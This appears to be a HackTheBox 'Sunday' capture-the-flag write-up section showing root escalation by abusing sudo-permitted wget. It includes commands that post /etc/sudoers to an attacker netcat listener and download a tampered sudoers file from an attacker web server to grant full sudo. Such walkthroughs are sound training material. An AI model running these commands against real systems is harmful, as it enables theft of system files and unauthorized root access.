 		AsciinemaPlayer.create('https://raw.githubusercontent.com/yufongg/yufongg.github.io/main/_posts/Writeups/HackTheBox/Linux/Sunday/images/shadow.cast', document.getElementById('demo'), { 
		loop: true,
		cols: 120, 
		rows: 25,
		autoPlay: true,
		terminalFontSize: "small"
			});
	</script>
	</body>
	</html>

# Privilege Escalation - 2
## Root - Via WGET, replace sudoers file
1. Instead of replacing `shadow` file, replace `/etc/sudoers`
2. Start listener
3. `POST` `/etc/sudoers` file to `kali`
	```
	sammy@sunday:/tmp$ sudo /usr/bin/wget --post-file=/etc/sudoers 10.10.14.31:4444
	
	┌──(root💀kali)-[~/htb/sunday/10.10.10.76/loot]
	└─# nc -nvlp 4444 > sudoers_og
	Ncat: Version 7.92 ( https://nmap.org/ncat )
	Ncat: Listening on :::4444
	Ncat: Listening on 0.0.0.0:4444
	Ncat: Connection from 10.10.10.76.
	Ncat: Connection from 10.10.10.76:44997.
	```
4. Replace `/usr/bin/wget` to `/usr/bin/su`
	```
	## Read drop-in files from /etc/sudoers.d
	## (the '#' here does not indicate a comment)
	#includedir /etc/sudoers.d
	sunny ALL=(root) NOPASSWD: /root/troll
	sammy ALL=(root) NOPASSWD: /usr/bin/su 
	```
	- Remember to remove `HTTP HEADER`
5. Start python web server hosting our  `sudoers` file
	```
	┌──(root💀kali)-[~/htb/sunday/10.10.10.76/loot]
	└─# python3 -m http.server 80
	Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
	```
6. Replace `sunday.htb`'s `/etc/sudoers w/` our `sudoers` file
	```
	-bash-4.4$ sudo /usr/bin/wget http://10.10.14.31/sudoers -O /etc/sudoers
	```
7. Check sudo access
	```
	-bash-4.4$ sudo -l
	User sammy may run the following commands on sunday:
	    (ALL) ALL
	    (root) NOPASSWD: /usr/bin/su
	    (root) NOPASSWD: /usr/bin/wget
	```
8. Obtain `root`
	```
	-bash-4.4$ sudo su
	```